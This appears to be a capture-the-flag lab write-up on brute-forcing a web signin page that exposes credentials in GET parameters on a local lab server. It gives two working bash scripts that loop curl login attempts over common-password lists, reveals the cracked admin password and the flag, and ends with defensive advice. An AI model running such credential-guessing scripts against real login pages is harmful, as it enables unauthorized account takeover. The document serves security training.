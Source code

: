 # <span style="text-decoration: underline"> Brutforce </span>

- Tags : `brutforce` , `curl`, `guess`
- Server ip : `192.168.1.17 `
- Difficulty : <span style="color : orange">Medium</span>
  
___

# <span style="text-decoration: underline">problem</span>

Once common way of breaking into website is uisng brutforce. When we go to **signin** page and enter

|username|password|
|--|--|
|AAA|BBB|

and try to signin using those credentials, we are redirected to the folloing `URL` : **`http://192.168.1.17/?page=signin&username=AAA&password=BBB&Login=Login#`**

In the `URL` we can see the following parameters

|key|value|
|--|--|
|page|signin|
|username|AAA|
|password|BBB|
|Login|Login|

We can clearly see in the `URL` what we used as our `username` and `password`. This is clearly an old way of doing things because it expose the user credentials in plain text and on the `URL`

# <span style="text-decoration: underline">Solution</span>

To try a brutforce agains this `URL` all we need to do is change the value of `username` and `password`. It would take an infinit amount of timet ot try all the characters as **username** and **password** so a better way to do this would be using [`dictionary`](https://nordpass.com/blog/what-is-a-dictionary-attack/) based attack.

> A dictionary attack is a systematic method of guessing a password by trying many common words and their simple variations. Attackers use extensive lists of the most commonly used passwords, popular pet names, fictional characters, or literally just words from a dictionary – hence the name of the attack. They also change some letters to numbers or special characters, like “p@ssw0rd”.

It would still take way too long to guess both **username** and **password** so let's narrow down a bit our `username` wordlist. According to [this](https://lifehacker.com/the-top-10-usernames-and-passwords-hackers-try-to-get-i-1762638243) website the followings are the most commong `usernames`.

|username|count|percent|
|--|--|--|
| administrator| 77125 | 4.87%|
| Administrator| 53427| 24.15%|
| user1| 8575 | 3.88%|
| admin| 4935| 2.23%|
| alex| 4051| 1.83%|
| pos| 2321| 1.05%|
| demo| 1920| 0.87%|
| db2admin| 1654| 0.75%|
| Admin| 1378| 0.62%|
| sql| 1354| 0.61%|

We could also narrow down the **password** list like our **username** list (all though in realworld we should probably try a bigger list). Here is a list of website that propose a short list of commonly used password.

- https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords
- https://github.com/DavidWittman/wpxmlrpcbrute/blob/master/wordlists/1000-most-common-passwords.txt
- https://cybernews.com/best-password-managers/most-common-passwords/
- https://nordpass.com/most-common-passwords-list/
- https://github.com/iryndin/10K-Most-Popular-Passwords/blob/master/passwords.txt
- https://techcult.com/most-common-passwords/

I have noticed that [this](git) repository contains a short list (1k) passwords that we can find in the [wikipedia](https://en.wikipedia.org/wiki/Wikipedia:10,000_most_common_passwords) page and this could be a good start.

All we have to do now is

- Download the list of password
- Write some code to do the query using all the passwords
- And wait for the program to find the password

Here is a simple `shell` script to do the brutforce

?> We will use `admin` as username first because it is one of the most used username for admin account.

```bash
#!/bin/bash

username="admin" # The username we
host="192.168.1.17" # The ip address of the machine
dictionary="passwords.txt" # Path to the dictionary (password list)
i=1 # A simple iterator to know howmany password have we tried

while IFS= read -r password;
do
	echo -n "trying [$i]: $password"
	curl -s "http://$host/?page=signin&username=$username&password=$password&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : $password"
		exit
	fi
	((i=i+1))
	printf "\33[2K\r"
done < $dictionary
```

If you do not desire to download anything then you can use the following script

```bash
HOST='192.168.1.17'
USERNAME='admin'
DICTIONARY=($(curl -s "https://raw.githubusercontent.com/DavidWittman/wpxmlrpcbrute/master/wordlists/1000-most-common-passwords.txt"))

for i in ${!DICTIONARY[@]};
do
	echo -n  "trying [$i]: ${DICTIONARY[$i]}"
	curl -s "http://$HOST/?page=signin&username=$USERNAME&password=${DICTIONARY[$i]}&Login=Login#" | grep flag > /dev/null # You can also get the password directly in the terminal by removing the "> /dev/null"
	if [ $? -eq 0 ]
	then
		printf "\n\n"
		echo "Found the password : ${DICTIONARY[$i]}"
		exit
	fi
	printf "\33[2K\r"
done
```

!> If you try the script, do not forget to put the **right** `host` / `ip` address for `you`!

After executing our script, the script tells us that the password is `shadow`. so :

|username|password|
|--|--|
|admin|shadow|

# <span style="text-decoration: underline">How to avoid the problem</sapan>

This was once a common problem before where website exposed the user credentials directoly on the `URL` which itself is not encrypted. In moderndays we start

- Not sending credentials or importent information over [`GET`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/GET) method and start using [`POST`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/POST).
- We use [`ssl`](https://developer.mozilla.org/en-US/docs/Glossary/SSL) encryption and [`https`](https://developer.mozilla.org/en-US/docs/Glossary/https) to send our data over internet so even if someone get hold of our data they will have hard time decrypting it.
- Set up a maximum request length so that if a someone tries to send to many requests, they get blocked.
- 2 factor authentication so that even if you have the correct credential you will still need a mobile device or a third element to log in.
- A server could also guess if the user begind the screen is the right user depending on the user IP, location, behaviour and many other things to protect better the user account.


# <span style="text-decoration: underline">Flag</sapan>

```text
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```